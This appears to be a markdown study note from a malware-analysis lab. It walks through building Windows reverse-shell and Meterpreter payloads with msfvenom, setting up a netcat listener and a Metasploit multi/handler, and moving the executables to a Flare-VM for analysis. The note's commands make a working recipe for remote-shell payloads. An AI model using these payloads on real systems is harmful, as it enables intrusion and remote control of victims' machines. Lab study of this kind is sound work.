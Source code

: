 


## Reverse Shell Generation 

Here, we are usinig it to generate a **Windows-Based Reverse Shell** : 



>
>	msfvenom -p windows/shell_reverse_tcp -f exe > malicious.exe


Next, on a Kali Linux VM, we set up the **Listener** : 


>
>	nc -lnvp 1234



Next, we take our *malicious.exe* file unto the **Flare-VM** : 

>In multiple ways, such as the VMWARE *Shared Folders* feature! 
>
>or , for bonus points :
>
>python3 -m http.server 8080



## Using a Meterpreter Reverse Shell as an *.exe* File 


First, we use our trusty **MSFVENOM** to generate the the *Meterpreter Listener* : 

>
>	msfvenom -p windows/meterpreter_reverse_tcp LHOST=192.168.126.141 LPORT=5678 -f exe > meterpreter.exe


Next, let us set up the *Listener* via **Metasploit** : 

>1. Use *Multi/Handler*
>2. Set the **LPORT**
>3. Set the **LHOST**
>4. Set the payload *windows/meterpreter_reverse_tcp*


We now take the file unto our **Flare-VM**!



>[!question]
>
>What is going on with **Reverse Shells** really ? 
>
>
>>[!answer]
>>
>>The *.exe* file generated here opens up a door for us, which is a *TCP Endpoint*, so we can >communicate with it! Then, it establishes a connection on our *Attacking Machine*. Since we >now would have our connection, we can send forth commands!
>

1








